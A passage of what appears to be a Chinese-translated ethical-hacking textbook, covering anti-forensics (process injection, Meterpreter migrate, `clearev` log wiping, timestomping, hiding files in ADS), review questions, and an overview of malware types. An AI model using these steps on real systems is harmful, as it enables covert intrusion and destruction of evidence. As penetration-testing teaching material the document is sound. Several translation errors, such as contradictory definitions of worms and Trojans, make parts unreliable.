Windows 有一个名为“后台智能传输服务”（BITS）的服务。BITS 允许诸如更新之类的任务在后台安静运行，不会影响正常用户体验。然而，BITS 不仅用于后台文件或数据传输，它还让攻击者可以通过 PowerShell manipulation 来操控这些任务。攻击者可以创建一个 BITS 作业来下载恶意代码并在完成后自行清理。这正是 BITS 能够实现的，也是它被攻击者广泛使用的原因。

另一种攻击者可以使用的战术是劫持执行流。通过插入恶意代码或配置来实现。例如，攻击者可以安装一个恶意动态链接库（DLL），该 DLL 可以在正常程序运行的同时执行攻击者的代码。此外，在 Windows 系统上，攻击者还可以修改注册表键来更改某些文件类型的处理程序。这样，当用户尝试打开特定文件类型时，操作系统会调用恶意可执行文件。例如，如果攻击者修改了 .docx 文件的处理程序，每当用户双击 Word 文档时，恶意代码就会被执行。攻击者随后会确保正确的文件被打开在 Word 中，以伪装劫持行为。

## 覆盖痕迹

只要你在渗透测试或安全评估中获得系统访问权限，就会留下痕迹。登录系统的行为会在日志中留下记录。任何需要在系统上留下的文件或其他 artifacts 都有可能被定位并被标记为恶意。这意味着你的行动可能被调查，据点可能被清除。你将不得不重新开始，对付那些加强了防护措施的目标。因此，你需要擅长最好地隐藏自己的存在。

隐藏和覆盖痕迹的方面有很多。首先，一旦你获得系统访问权限，你几乎肯定会生成日志。这些日志可能需要被修改。你可能需要创建文件。例如，你想在目标系统上放置一个 payload，这通常意味着在文件系统上放置一个文件。你需要一个好方法来隐藏你放置的文件。一旦你有了可执行文件，就需要运行它。这意味着进程表会留下证据，任何查看进程表的人都会看到它，即使只是用户稍作查看。

有时覆盖痕迹会导致一定程度的模糊性。你让某些东西变得更难以发现或理解。这有点像试图在开阔的田野中隐藏自己。你尽力掩盖自己，但只要有人认真搜寻，就会发现你。

### Rootkits

进程表，坦率地说，是最难处理的痕迹。原因是进程表存储在内核空间中。要对进程表进行任何操作，你需要能够隐藏内核空间中的某些内容。在大多数现代操作系统中，安全和权限采用环模型。最高权限是 ring 0，即内核空间，这意味着你拥有完整的系统控制权，因为内核与硬件交互。没有其他任何部分或元素会与硬件交互或需要内核处理的组件。

与内核交互是通过应用程序编程接口（API）实现的。请求通过 API 发送到内核，内核完成请求并将结果返回给发起请求的进程。这意味着，要操纵内核空间中的任何内容（如进程表），你要么通过现有的 API 函数向内核发送请求，要么本身就在内核空间。由于从外部内核空间只能通过创建和删除进程来操纵进程表，你实际上无法从任何非内核位置隐藏进程的存在。

攻击者通常会使用所谓的 `rootkit` 软件集来操纵用户可见的内容。rootkit 可能包含内核模式模块或驱动程序，用于过滤进程表的结果。该 rootkit 需要知道其包含的进程名称或属性，以便将其从结果中过滤掉。rootkit 还可能包含替换的二进制文件，同样用于隐藏文件列表，使得使用系统二进制文件的用户看不到与感染/ compromise 相关的文件。

遗憾的是，rootkit 并不是 Metasploit 或其他攻击工具自带的组件。相反，Metasploit 使用诸如进程编码等技术来躲避恶意软件扫描，使得扫描工具更难以识别你所注入的软件。此外，如果你能够控制可执行文件的名称，将其改为不易引起怀疑的名称可以帮助保护进程。例如，如果你将其命名为 `lsass.exe`，任何查看的人都会认为这是普通的 Windows 系统进程，而不会产生疑虑。

### 进程注入

为了不留下可以追溯到我们的进程，我们可以考虑利用其他进程的空间。一种方法是将代码注入到已存在的进程中。过程注入的概念是将攻击者想要运行的代码注入到一个现有进程中。一旦代码被注入，攻击者需要使其运行，这可以通过在目标进程中启动一个新线程来实现。在 Windows 系统上，这通过获取进程的句柄并使用该句柄在目标进程中分配内存来完成。从 Windows API 的角度来看，句柄本质上是指向进程表中进程条目的指针。

一旦攻击者拥有句柄并将代码注入到目标进程空间，该代码即可执行。这意味着代码在目标进程的进程空间内运行，从而被隐藏在该进程内部。例如，下面的代码片段展示了一个 Metasploit 模块，它会将代码注入到由模块参数指定的进程中。这里选择的进程是 postgres，这意味着 shellcode 在数据库服务器的进程空间中运行。执行的 payload 将监听默认端口 4444 的 TCP 端口（因为没有在参数中指定其他值）。

```
Process Injection Module
```

-   [使用过程注入模块](https://wiki.example.org/process_injection) 将 Meterpreter 注入到 PID 为 3940 的进程中，使用 `windows/shell_bind_tcp` 为其创建反向 Meterpreter 监听器。

   [*] 正在对 VAGRANT-2008R2 执行模块  
   [*] 创建反向 Meterpreter 载荷：LHOST=192.168.86.57 LPORT=4444  
   [*] 启动 Notepad.exe 以托管 Meterpreter 会话。  
   [*] 创建的进程 PID 为 1296  
   [*] 将 Meterpreter 注入进程 ID 1296  
   [*] 在地址 0x00170000 分配 328 字节的载荷内存  
   [*] 正在向内存写入载荷…  
   [*] 成功将 Meterpreter 注入进程 1296  
   < snip >  

msf> connect 192.168.86.25 4444  
   [*] 已连接到 192.168.86.25:4444  
   Microsoft Windows [Version 6.1.7601]  
   Copyright (c) 2009 Microsoft Corporation.  All rights reserved.  

   C:\ManageEngine\DesktopCentral_Server\bin>

-   在注入完成后，可以看到 Metasploit 在另一个会话中连接到远程系统，获得了命令行交互式 shell。另一种类似的技术是将初始会话迁移到其他进程。下面的列表展示了此技术。migrate 模块会启动一个新进程，其中包含我们已连接的 Meterpreter 荷载。可以看到我们在 Java Server Pages (JSP) 进程中启动。迁移完成后，我们运行在 `notepad.exe` 进程的上下文中。这是通过向 Notepad 进程注入代码实现的。

**使用 Meterpreter 进行进程迁移**

```
meterpreter> run post/windows/manage/migrate

   [*] 正在对 VAGRANT-2008R2 执行模块  

   [*] 当前服务器进程: NepqI.jsp (5624)  

   [*] 启动 notepad.exe 进程以进行迁移  

   [+] 迁移到 6012  

   [+] 成功迁移到进程 6012  

meterpreter> 
```

通过进程迁移，我们可以在 endpoint protection 解决方案中更好地规避检测。所有操作都在已存在且看似正常的进程空间中进行，即使行为可能被认为是恶意。正如本章其他技术所述，关键是保持不被检测。将恶意代码运行在不易引起注意的进程中，是维持持久访问而不被发现的好方法。

### 日志操作

日志信息可能是一把双刃剑。在某些情况下，目标几乎没有任何日志。它们记录的内容只保存在本地系统上，这意味着如果有人想查看，只能在本地系统上找到信息。一些组织会为事件做准备，确保不仅有完善的日志政策，而且将系统日志集中存储，这意味着对本地系统日志的任何修改都不会产生影响，因为调查人员会前往集中日志存储库，并可能使用 ElasticStack 或 Splunk 等日志搜索工具。

一种简单的处理目标日志的方法是直接清除它们。这意味着在 Windows 系统上清空所有事件日志条目，或在 Linux/类 Unix 系统上删除日志文件。我们可以回到 Meterpreter 进行此类操作。一旦我们在 Windows 系统上获得 Meterpreter 会话，就可以使用 `clearev` 命令。下面的代码展示了此过程。此方法的挑战之一是需要拥有正确的权限。

**使用 Meterpreter 清除事件查看器**

```
meterpreter> clearev

 [*] 正在擦除 Application… 的 635 条记录  

 [-] stdapi_sys_eventlog_clear: 操作失败: 访问被拒绝。  

 meterpreter> getuid  

 服务器用户名: NT AUTHORITY\LOCAL SERVICE
```


从输出可以看出，使用的帐户权限不足以清除系统事件日志。根据用户标识，我们使用的是 LOCAL SERVICE 用户而非 LOCALSYSTEM 用户。LOCALSYSTEM 用户拥有足够的权限来修改日志。LOCAL SERVICE 用户权限有限。

在类 Unix 系统上，日志通常以明文文件形式存在。只要拥有正确的权限，这些文件可以通过删除或去除可疑行来进行修改，除非系统启用了审计，否则修改日志是不可见的，这意味着你可以在不留下痕迹的情况下随意更改它们。你也可以在系统上停止 `syslog` 进程。在获得访问权限之前的所有操作都会被记录，但之后你可以在系统上进行其他操作而不产生日志。同样，如果系统启用了审计，你可以禁用审计守护进程。

### 隐藏数据

隐藏数据是常见的活动。某些文件可以伪装在显眼位置。例如，在 Windows 系统上，存在于临时目录的文件可以用来隐藏数据。这尤其适用于从 Internet 下载的内容。图 7.4 展示了 Windows 系统上 Chrome 临时 Internet 文件的目录列表。这是针对单个用户的缓存目录，通常不被普通用户访问，因此在此放置文件几乎不会被注意到。


**FIGURE 7.4** Temporary Chrome Internet files in Windows

该目录的路径为 `C:\Users\username\AppData\Local\Google\Chrome\User Data\Default\Cache`，其中有很多层次可以用来隐藏文件，使其不易被发现。这部分原因是，默认情况下许多目录在 Windows 资源管理器中是隐藏的，除非你改变设置显示它们。基本上，`AppData` 目录中的任何文件都会在大量临时文件和应用程序特定文件的杂乱中被淹没。

在 Linux 系统上，可以使用以点（`.`）开头的文件和目录来实现相同的效果。点文件的文件名以点开始，例如 `.bashrc`。普通的文件列表不会显示以点开头的文件，同样也不会显示以点开头的目录。如果你把文件放在这些目录中，它们可能会被遗漏或忽视。

Windows 系统有一个称为 *alternate data streams* (ADS) 的特性，它在 NTFS 文件系统中实现，最初用于支持将 Apple 磁盘连接到 Windows NT 时的情况。90 年代初，Windows NT 支持的平台和架构远多于现在，虽然现在不再支持 macOS 的 HFS，但 ADS 仍然保留为特性。它最常见于下载文件。系统会为文件添加一个“来源区”（zone），如果来源区是 Internet 区，则会弹出关于文件是否要打开的提示。ADS 中的区域用于检查，如果是 Internet 区，用户会被询问是否打开文件。

Figure 7.5 展示了创建交替数据流并列出其存在的目录。并非所有 Windows 程序都理解 ADS，这意味着它们通常不会用于常规存储文件。它们可以用于存储文件属性，也可以用于恶意目的。例如，你可能能够将可执行文件存储为交替数据流。你也可以使用 `type` 命令将可执行文件重定向到交替数据流，使其成为文件名条目在文件表中的另一条数据流。


**FIGURE 7.5** Using alternate data streams in Windows

- 存储可执行文件到 ADS 的挑战在于它们不再能直接在 ADS 中执行。你需要提取可执行文件并运行它，而不是尝试从独立的数据流中调用它。这有助于保护系统免受攻击者直接调用的攻击，因为常规目录列表（包括 Windows Explorer）不会显示 ADS 的存在。文件大小仅显示主数据流，完全忽略其他数据流。这使得隐藏数据有效，但对直接执行的数据隐藏并不是最有效的。

- Windows 系统的另一个最终可能性是体积阴影副本服务。这是 Windows 用于在运行系统上存储卷的备份的方法。Windows 创建这些阴影副本来保持文件的版本，以便在需要时回滚。可以（虽然比较困难）挂载体积阴影副本并对其中的文件进行操作。这可以用于隐藏数据，但并不是最佳方式，因为处理起来非常繁琐。

### 时间管理

文件系统中的文件都关联有日期和时间。你通常会有每个文件的修改时间、访问时间和创建时间。如果你尝试用你自己制作的恶意软件 payload 替换系统中的常见文件，上传文件的时间戳会被保留，从而更易被检测。相反，你可以修改文件的时间。我们再次使用 `Meterpreter`。下面的代码展示了使用 `timestomp` 来操作文件时间的用法。通过 `timestomp`，我们可以将上传文件的时间设置为与合法文件相同的时间戳。当我们将替换文件移动到位时，它的时间戳就会与合法文件匹配。

**Timestomping Files**

```
meterpreter> upload regedit.exe
[* ] uploading : regedit.exe -> regedit.exe
[* ] Uploaded 72.07 KiB of 72.07 KiB (100.0%): regedit.exe -> regedit.exe
[* ] uploaded : regedit.exe -> regedit.exe
meterpreter> timestomp regedit.exe -f /windows/regedit.exe
[* ] Pulling MACE attributes from /windows/regedit.exe
```

- 任何对文件进行操作时，都会通过“触碰”文件来调整其时间值。例如，你会改变文件的修改时间和访问时间。为了掩盖痕迹，你可以在修改文件后将这些时间值恢复为原来的状态。

## 总结

一旦你收集完关于目标的所有信息 —  — 网络、系统、电子邮件地址等 —  — 下一步是利用已识别的漏洞进行攻击。利用漏洞的原因有多种，并非单纯为了证明可以利用。最终目标是提升组织的安全态势和准备度。这意味着你利用漏洞是为了证明其存在，而非仅仅是误报。此外，你还利用漏洞收集更多信息，以便进一步利用其他漏洞，证明它们确实存在。完成测试并识别出漏洞后，你可以将结果报告给雇主或客户。

要利用漏洞，你需要能够搜索 exploit 而不是自己编写所有 exploit。网上有在线仓库（如 `www.exploit-db.com`），其中包含大量 exploit。这些仓库的安全性参差不齐。例如，你可以在 Tor 网络上查找 exploit，但那里获取的内容可能不安全，尤其是当你下载二进制文件或不了解源码时。如果你希望保持 exploit 仓库本地（比如不确定是否有网络连接），可以获取 Exploit‑DB 仓库。还有一个名为 `searchsploit` 的搜索脚本，能帮助你根据可能的漏洞特征定位相应的 exploit。

一旦你成功利用了系统，接下来的步骤通常包括：模拟攻击者的行为，保持对被 compromized 系统的持续访问，以及获取其他系统的访问权限。例如，你可以从被 compromized 系统中提取密码，随后使用 John the Ripper 或彩虹表等工具对这些密码进行破解。在 Windows 域环境中，用户名通常可以跨多个系统使用，本地管理员密码也常被复用。

你可能会遇到无法从外部直接访问的网络。此时可以通过已 compromized 系统进行 pivot（路由），把流量通过受控系统转发到内部网络的其他系统。

为了完成许多任务，你需要管理员权限。这通常需要提升权限。可以通过 `Meterpreter` 自动完成，但更常见的是利用本地漏洞获取管理员权限。Metasploit 可以帮助，但你可能还需要寻找并使用其他本地 exploit。提升权限的另一个常见需求是持久化，即确保在需要时可以重新进入系统。虽然可以在不提升权限的情况下实现持久化，但拥有管理员权限始终更有帮助。

为了隐藏痕迹，你可能会擦除或篡改日志。这同样需要管理员权限。隐藏文件的方式有很多，这有助于在目视检查时不被发现。真正隐藏文件和进程可能需要 rootkit。你也可以操纵文件的时间戳，这在修改系统提供的文件时可能是必要的。

## Review Questions

1. 文件元数据中通常存储的三个时间是哪些？
   1. Moves, adds, changes
   2. Modified, accessed, deleted
   3. Moved, accessed, changed
   4. Modified, accessed, created

2. 从普通用户账户获得管理员权限的过程叫什么？
   1. Privilege escalation
   2. Account migration
   3. Privilege migration
   4. Account escalation

3. John the Ripper 的单次 crack 模式（默认模式）的作用是什么？
   1. 检查所有可能的密码
   2. 使用已知信息和伪装规则
   3. 使用内置字典
   4. 使用字典和伪装规则

4. 使用彩虹表的代价是什么？
   1. 磁盘空间优先于速度
   2. 精度优先于磁盘空间
   3. 速度优先于精度
   4. 速度优先于磁盘空间

5. 使用本地漏洞进行 exploit 的原因有哪些？
   1. Pivoting
   2. 日志篡改
   3. 特权提升
   4. 密码收集

6. 修改文件时间戳的操作叫什么？
   1. Time stamping
   2. Timestomping
   3. Meta stomping
   4. Meta manipulation

7. 攻击者在 Windows 系统上使用交替数据流（ADS）是为了什么目的？
   1. 隐藏文件
   2. 运行程序
   3. 存储 PowerShell 脚本
   4. 阻止文件

8. 哪种技术可能直接用于保持对系统的访问？
   1. 在 Windows 注册表中运行键值
   2. 交替数据流
   3. Linux 上的 `.vimrc` 文件
   4. PowerShell

9. 如果你在寻找可以针对已知漏洞的可靠利用手段，你会使用什么？
   1. Tor 网络
   2. `Meterpreter`
   3. `msfvenom`
   4. Exploit‑DB

10. 使用 `Meterpreter` 中的 `clearev` 命令，攻击者可能想做什么？
    1. 运行漏洞利用
    2. 篡改时间戳
    3. 篡改日志文件
    4. 远程登录

11. 你在获得系统访问后发现自己是 `www-data` 用户，刚进入系统后你可能会尝试做什么？
    1. 跳转到另一个网络
    2. 提升权限
    3. 清除日志
    4. 利用网页浏览器

12. 你在受害系统上安装了多个文件和进程。你还应该尝试安装什么？
    1. 注册表键
    2. 交替数据流
    3. Rootkit
    4. Root 登录

13. 你在受害系统上进行横向移动。这能为你带来什么？
    1. 数据库访问
    2. 通往额外网络的路径
    3. 更高权限
    4. 持久访问

14. 你会使用程序 `rtgen` 做什么？
    1. 生成词列表
    2. 生成彩虹表
    3. 生成防火墙规则
    4. 持久访问

15. 哪种方式可以利用客户端漏洞进行攻击？
    1. 向 Web 服务器发送损坏的数据包
    2. 发送大量 ICMP 数据包
    3. 发送精心构造的 URL
    4. 暴力破解密码

16. 过程注入的一个结果是什么？
    1. 隐藏进程
    2. Rootkit
    3. 交替数据流
    4. 隐写

17. 哪种工具可以用于入侵系统并随后进行后期操作？
    1. `nmap`
    2. John the Ripper
    3. `searchsploit`
    4. Metasploit

18. 哪个应用是客户端漏洞的常见目标？
    1. Web 服务器
    2. Web 浏览器
    3. Web 应用防火墙
    4. Web 页面

19. 使用根套件（rootkit）的两个优势是什么？
    1. 安装交替数据流和注册表键
    2. 创建注册表键和隐藏进程
    3. 隐藏进程和文件
    4. 隐藏文件和注册表键

20. 你可以使用什么来从受害系统中获取密码哈希？
    1. John the Ripper
    2. `mimikatz`
    3. 彩虹表
    4. 进程转储

21. 为了防止已记录的 PowerShell 脚本被理解，你会使用什么技术？
    1. 编码
    2. 隐蔽
    3. 彩虹表
    4. Kerberoasting

22. 哪种技术最有可能用于在 Windows 网络中远程系统上收集凭据？
    1. Kerberoasting
    2. 模糊测试
    3. Rootkit
    4. PowerShell 脚本

23. 想在 Windows 系统上“活体”作战的攻击者最可能使用哪种语言？
    1. Ruby
    2. Python
    3. `cmdlets`
    4. PowerShell

24. 如果你想找出应用程序（包括网络服务）中先前未被发现的漏洞，你可能会使用哪种工具？
    1. `Rubeus`
    2. `Ophcrack`
    3. John the Ripper
    4. `Peach`

25. 如果你在入侵系统后需要一个与操作系统无关的接口，你可能会使用哪种工具？
    1. `Rubeus`
    2. `Meterpreter`
    3. `Empire`
    4. `Ophcrack`

# Malware

Malware 是大生意。不仅有数百万种恶意软件家族和变体在全球流通，且有大量未知的程序员在开发这些恶意软件；此外，至少有数十家公司在研发反恶意软件解决方案。开发恶意软件的工程师们是受薪编写软件、预计出售恶意软件，或期望通过恶意软件运营获利。

Figure 8.1 展示了 AV‑TEST 在其网站上识别出的新恶意软件样本数量。这是一个累计图表，展示了自 2007 年统计开始以来恶意软件实例的上升趋势。该图表还显示了潜在不受欢迎的程序（PUAs），也称为潜在不受欢迎程序（PUPs）。


**FIGURE 8.1** AV‑TEST Institute malware statistics

我们使用统称 *malware*，这是 *malicious* 与 *software* 的组合词，但恶意软件有多种不同类型。对恶意软件进行分类可能会很复杂。一些恶意软件会跨越多个类别，因为它的传播方式或感染方式并不总是唯一的；有时更有意义的是讨论它的行为。要理解恶意软件的行为，需要对其进行分析。分析可以是动态的，也可以是静态的。当然，也可以依赖他人的分析。

如今恶意软件往往不是孤立存在的，而是与更大的系统或框架相结合。了解与恶意软件一起出现的基础设施有助于识别感染情况，因为网络监控者可能会观察到相关的网络流量。在伦理黑客实践中，你可能想自行创建恶意软件。这可以在不一定产生恶意的前提下完成，但如果你想在测试时投放自己的恶意软件并获得持久访问，也有相应的方法。

当然，恶意软件会面对反恶意软件解决方案。它并非仅仅是说“防病毒”，因为现代反恶意软件不止传统防病毒功能。有多种解决方案可用于防范恶意软件，了解它们的工作原理也能帮助你在规避或避免恶意软件方面提供参考。

查看 MITRE ATT&CK 框架时，你不会在其中直接找到“恶意软件”这一类别，因为每个类别都有特定的技术、战术和程序。恶意软件会分散在多个类别中，而不是被限定在某一个。

## Malware Types

这可能会让人感到困惑，因为单个恶意软件样本可能被归入多个桶中。我们将从不同的角度思考恶意软件。有些角度关注恶意软件的传播方式，其他角度关注其表现行为。你可能会发现，除一种类型的行为恶意软件外，其他类型往往会同时出现。尤其是在行为类恶意软件方面，这一点尤为明显。

通过了解不同类型的恶意软件，你会更深入地理解当今的威胁环境，包括恶意软件的用途及其被使用的方式。

### Virus

由于用于防止或清除恶意软件的软件常被称为 *antivirus*，你很可能会联想到 *virus* 这个词。当然，并非所有恶意软件都是病毒，但所有计算机病毒都是恶意软件。病毒需要用户介入才能感染系统。用户必须执行某个动作才能触发病毒。一旦触发，病毒会可能注入代码到其他程序中，使得这些程序在运行时仍然保持对受感染系统的控制。每当受感染的程序被运行时，系统就会被重新感染，即使原始可执行文件和进程已被删除。要清除病毒，必须彻底删除所有实例。

病毒自 1970 年代初期以来就已经存在，尽管自 1949 年起，关于自复制计算机程序的理论已经出现。早期的计算机病毒例子是 Creeper，它感染了 ARPAnet 系统。该病毒仅复制自身，除了消耗时间以隔离和清除它外，没有造成其他损害。这并不意味着处理病毒不具备重要性，因为应对病毒可能非常耗时。Creeper 没有删除任何文件，也没有使系统无法使用。


个人电脑上第一个病毒是 Elk Cloner。它同样仅复制自身。在 Elk Cloner 的情况下，它会复制到插入系统的软盘上。随后，这些软盘会被带到其他系统，从而在该系统上感染操作系统，使得程序能够感染任何插入该系统的软盘。

无论病毒及其功能如何，都有某些共同元素。每个病毒都具备识别并感染程序的能力，并且能够将自身复制到该程序中。这并不意味着病毒只能感染单个程序后停止。在某些情况下，它会在文件系统上放置多个自身副本。例如，I Love You 病毒会将媒体文件（如照片和其他图像）替换为同名但带有 `.vbs` 后缀的文件，即 Visual Basic Script（VBScript）文件。任何试图查看照片的人实际上都会执行 VBScript，从而确保系统被重新感染。

计算机病毒被认为具有与生物病毒相同的阶段。病毒会有休眠阶段，在此期间保持 inactive，等待触发。触发阶段是病毒被用户操作或其他定义事件激活时发生。触发条件可能是打开电子邮件、启动文件，或是达到特定日期和时间。有时，等待特定时间触发的病毒被称为 `logic bombs`。此外，还有传播阶段，在此期间病毒会尝试通过感染其他文件或程序来传播，甚至可能通过电子邮件将自身发送给其他受害者。最后是执行阶段，病毒执行其原本设计的操作。这些操作可能是恶意的、无害的，或仅仅是一种烦扰。

病毒可能是内存驻留的。这意味着一旦感染系统，它就会保 ver in memory。这通常意味着它会将自身安装为操作系统的一部分，导致系统启动时加载到内存并保持直至关闭。由于始终运行，内存驻留病毒可以随时扫描、感染和重新感染。如果是非内存驻留的病毒，则必须先执行它。病毒执行后，会根据需要进行扫描和感染。一个典型的非内存驻留病毒是宏病毒。它作为脚本在文档中执行。例如，Word 文档可以包含宏，这些宏是短脚本，当文档打开时会自动执行。该病毒可以通过附加到宏并随后将文档发送来传播。许多其他文件格式也支持脚本执行，包括 PDF（便携文档格式），它们同样可能受到此类病毒的侵害。

### 蠕虫

蠕虫通过某种外部帮助自我传播。相反，蠕虫在最初被启动后，所有后续感染都是蠕虫自行在系统之间移动实现的。这称为 `self-propagation`。计算机蠕虫的概念已有数十年历史。事实上，最早且最 devastating 的之一发生在 1988 年，它是由一名研究生 Robert T. Morris 编写的程序。该程序利用多个 Unix 程序的漏洞，以便在系统之间移动。该程序的负载并不执行任何操作，其唯一目的是展示能够在系统之间移动的能力。尽管如此，停机和清理的成本非常高昂。低估的成本在 2021 年美元中约为 $218,775，最高可达 2100 万美元。

通常，蠕虫被认为是恶意的，但不一定如此。著名的蠕虫如 Code Red 和 Nimda 曾在全球造成大量损害。然而，也有像 Welchia/Nachi 这样的蠕虫。该蠕虫的意图是移除另一个蠕虫 Blaster，并为系统补丁，使其不再易受 Blaster 的攻击。即使消除了像 Blaster 这样的恶意软件，如果不移除蠕虫所利用的漏洞，蠕虫仍会从其他来源重新感染系统。

无论作者的意图如何，蠕虫的问题在于资源消耗以及清理后所需的时间和资源。蠕虫通常是 indiscriminate 的，只要能够找到系统且该系统上存在蠕虫所针对的漏洞，它们就会尝试感染该系统，包括已经感染过的系统。一旦利用漏洞，蠕虫可能会检查是否已存在蠕虫实例。多个蠕虫实例可能同时攻击同一台主机，导致网络流量增加。这只是对企业网络影响的起点。尤其是同时利用多个漏洞，会消耗处理器和网络资源。虽然影响可能最小且不易被注意到，但极具毒性的蠕虫可以产生重大影响，这一点在许多情况下已被证实。

需要牢记的是，蠕虫会自行传播，无需用户协助。这意味着它具备通过网络连接到远程系统并在此类系统上执行自身的能力，这很可能是由于面向网络的漏洞导致的。蠕虫进入环境后的重大挑战是它们可以利用信任关系和对网络通信的宽松限制。系统通常允许在同一网络内的系统相互通信，这种内部通信（east‑west communications）一般被视为受信任，因为两个系统均由组织拥有和维护，期望它们受企业控制而非攻击者控制。

蠕虫不一定必须是可执行文件。曾出现利用电子邮件程序和联系人列表进行传播的蠕虫。你可能收到一封包含嵌入式脚本的 HTML 邮件。邮件客户端在渲染 HTML 时会执行脚本，脚本利用邮件客户端的漏洞或其他配置不当的机制。蠕虫会访问联系人列表并向其中每个人发送自身的复制品。这也可能导致再感染，即即使恶意软件被识别并移除，仍可能通过其他渠道重新感染。如果你在我的联系人列表中，很可能我也在你的列表中，或者你知道有人在我列表中。最终，消息会回到我这里。这也是蠕虫在资源消耗方面的另一弱点。大量消息往来会导致消息队列拥堵，使得合法消息难以通过，需要管理员手动清理队列。

### Trojan

A Trojan 是一种真正的恶意软件，通常是病毒。它的特点是它看起来像它不是。虽然它可能已经很出名，但它的名字来源于所谓的特洛伊木马。故事是这样的：希腊人在与特洛伊人的战争中，制造了一个木马作为“礼物”送给特洛伊人。木马里面藏着希腊人。它并不是一座木制的马像，而是一个用来运送希腊士兵的载体，这些士兵在夜晚潜出木马，从内部攻击特洛伊城。

同理，被称为 Trojan 的恶意软件看起来像是无害的，往往是你以为自己认识的东西。实际上，它会感染你的系统。因为它依赖用户的参与 —  — 用户以为自己在运行一个非恶意软件的程序，实际上却在执行恶意软件，特洛伊木马通常是一种病毒。它感染你的系统，需要用户参与，是一种恶意软件，也就是病毒。你可以把它看作一种社交工程，用户被骗执行恶意软件，因为他们误以为它是别的东西。

它不一定是可执行文件。比如，你可能收到一份文档，你以为它是发票或收据。你打开文件查看，结果便被感染。这是社交工程和电子邮件的常见手段。如果你有“垃圾邮件”或“垃圾”文件夹，你可能会看到带有附件的邮件。这些附件很可能是被感染的 PDF 文件。经常会看到有人发送你声称是发票或某种追踪文档的内容。这与你需要点击 URL 的情况不同，它是附件，或是一封纯粹的 HTML 邮件。

### Botnet

Botnet 可能是病毒或蠕虫的负载，也可能是特洛伊木马安装的。提到 `botnet` 时，实际上是指被安装的 botnet 客户端。Botnet 是某一类恶意软件感染端点的整体集合。客户端是一段小型软件，其作用是连接到命令与控制基础设施（C&C 或 C2）。我们稍后在“Malware Infrastructure”章节中会更深入地介绍该基础设施。客户端从 C&C 基础设施接收指令。Botnet 可以用于多种目的，但其主要目的是为所有者创造收入。客户端的作用是促进这一过程。

一些现代 botnet 采用去中心化模型来管理。与传统的客户端‑服务器模型不同，去中心化 botnet 完全采用点对点（P2P）结构。消息可以直接从一个端点发送到另一个端点。所有路由均在 botnet 内部完成，类似于其他 P2P 网络。虽然 bot herder（bot herder）仍然掌控，但没有专门的基础设施网络可以被攻击或关闭。

### Ransomware

勒索软件（Ransomware）是另一种恶意软件。勒索软件的目标是向受害者索要金钱。勒索软件是一款会加密受害者硬盘一部分的程序，其中包括个人文件，甚至在某些情况下是重要的商业文档。攻击者会提供受害者汇款的指示，通常要求使用比特币等加密货币。其背后的思路是：攻击者在收到赎金后会提供解密密钥，受害者使用该密钥即可恢复宝贵数据。通常会设定一个时间限制，以增加对受害者的压力。

已有多个著名且毁灭性的勒索软件案例。最早且最知名的勒索软件家族之一是 `WannaCry`。它感染了全球数十万台系统，原因是用户未及时打补丁。图 8.2（链接）展示了如果你的系统被 WannaCry 感染时会收到的消息。幸运的是，微软的快速响应以及安全研究人员的努力，限制了全球受影响的设备数量。尽管如此，估计其造成的经济损失从数百万美元到数十亿美元不等。


**FIGURE 8.2** WannaCry 勒索要求

WannaCry 通过美国国家安全局（NSA）开发的漏洞 —  — 称为 `Eternal Blue` —  — 进行传播。该漏洞是“Shadow Brokers”组织获得的，该组织入侵了 NSA 并公开了该机构用于网络安全和网络战争的工具和战术。该信息公开后不久，WannaCry 开始快速传播。

虽然 WannaCry 肯定是勒索软件，但这仅描述了它的功能，而不涉及它的传播方式。它是病毒还是蠕虫？由于它利用远程漏洞自动感染其他系统，能够自行传播，因此它属于蠕虫。这是一个例子，说明同一段恶意软件可以同时被归类到多个类别。WannaCry 是一款 `勒索软件蠕虫`。

近年来，勒索软件呈上升趋势。攻击者发现，直接索要金钱比窃取信息并利用信息更为高效。传统上，威胁组织分为三类：

*   `情报驱动组织` —  — 有时也被称为 `国家行为体`。这些组织旨在获取诸如公司的知识产权等信息，以提升国家赞助企业的市场竞争力。

*   `犯罪组织` —  — 这些组织只为金钱而活。它们是有组织的企业，拥有雇员和工作时间，员工拥有各自的角色和职责，正如你在常规工作中所见。

*   `黑客活动家（Hacktivists）` —  — 这些人只是想制造轰动，表达观点。他们会进行各种行动，如篡改网页或发起分布式拒绝服务攻击。

有时，国家行为体也会参与 `financially motivated`（经济动机）的犯罪，以获取资金支持持续运营。自 2020 年起，特别是从那时起，那些原本关注知识产权的国家行为体开始转向勒索软件攻击，因为其盈利性极高。尽管美国财政部海外资产控制办公室（OFAC）发布警告称会对支付勒索软件的公司进行处罚，企业仍然支付赎金，因为这比恢复成本更具成本效益，即使公司拥有完善的备份基础设施和流程。此外，保险公司也可能在公司的授权下支付赎金，因为对保险公司而言，支付赎金的成本低于承担传统恢复的费用。

-   `Maze` 是 2019 年开始攻击公司的恶意软件家族之一，并在 2020 年初获得势头。当 `Maze` 加密系统上的文件时，恶意软件会在受害者电脑桌面的背景上留下一张图片，提供支付详情。其他勒索软件会在某个位置留下文本文档，供受害者找到并收到勒索要求。常见的要求是支付比特币，但也可能使用其他加密货币（通过密码学技术保护并实现匿名的数字货币）。

-   近年来，`Ryuk` 和 `REvil` 等勒索软件家族也非常活跃。`Ryuk` 属于使用多种互补攻击手段来实现目标的典型例子。它常以 `Trickbot` 为起点。虽然 `Trickbot` 最初是一款银行木马，用于窃取银行信息，但它已演变为功能完整的工具包。一旦 `Trickbot` 感染系统，它可能会拉入 `Ryuk` 恶意软件进行感染。

-   越来越多的勒索软件运营者会窃取数据，然后将其作为人质。他们威胁除非支付赎金就要公开数据。他们甚至会公开数据泄露以羞辱公司，希望这种羞辱能够促使公司支付赎金。公司可能会选择支付赎金，以免被羞辱并可能失去客户，因为客户发现其数据已被盗。此外，某些公司还需要支付监管或其他罚款。对企业而言，支付赎金可能比承担声誉损失和潜在客户流失更划算。

-   部分勒索软件公开提供解密工具，受害者若找到解密器，可能不必支付赎金即可恢复文件。但这些解密器可能包含恶意软件，取决于其来源。并非所有此类软件的来源都是可信的，这或许并不令人惊讶。

